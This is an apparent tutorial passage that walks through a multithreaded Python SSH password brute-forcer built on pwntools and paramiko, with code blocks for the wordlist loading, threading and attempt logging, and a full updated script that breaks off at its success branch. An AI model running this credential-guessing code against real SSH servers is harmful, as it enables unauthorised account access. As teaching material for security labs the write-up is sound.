 The next section of the code will attempt to connect via SSH with the variables passed into it for each password in the list. If a connection is successful, the `"Valid password"` string will be printed with the correct password using `log.success`, closes the connection, and sets the `"found"` to `True`. 

```python
      except paramiko.ssh_exception.AuthenticationException:
        log.failure(f"[X] Invalid password: '{password}'")
    except (paramiko.ssh_exception.SSHException, EOFError):
        sleep(retry_delay)
    return None
```

This block is used for any error checking relating to SSH and logs invalid password attempts to display in the terminal.

```python
# reads passwords.txt
with open("passwords.txt", "r") as password_list:
    passwords = [line.strip() for line in password_list]
```

A similar method will be used for setting up the password list. The syntax is improved by performing the strip and defining the `passwords` list in one line. 

```python
# threaded password testing
with ThreadPoolExecutor(max_threads) as executor:
    futures = {executor.submit(test_password, password): password for password in passwords}
    for future in as_completed(futures):
        result = future.result()
        if result:
            break

log.info("[*] Passwordlist exhausted!")
```

This new block of code does a lot of the lifting in the upgraded version. Implementing this in the script allows up to use a max number of threads (defined earlier with `max_threads`) to run attempts concurrently. The results are retrieved and the loop is broken when the valid password is found. A final message is also displayed when the password list is exhausted.

The updated version of the script is below:

```python
from pwn import *
import paramiko
from time import sleep
from concurrent.futures import ThreadPoolExecutor, as_completed

# variables
host = "X.X.X.X"
username = "user"
attempts = 0
found = False
max_threads = 5
retry_delay = 2

# test password function
def test_password(password):
    global attempts, found
    if found:
        return None

    try:
        attempts += 1
        response = ssh(host=host, user=username, password=password, timeout=1)
        if response.connected():
            log.success(f"[>] Valid password: '{password}'!")
```

[^1]: Source: [Python Documentation](https://docs.python.org/3/)
[^2]: Source: [pwntools](https://docs.pwntools.com/en/stable/)
[^3]: Source: [paramiko](https://docs.paramiko.org/en/stable/)
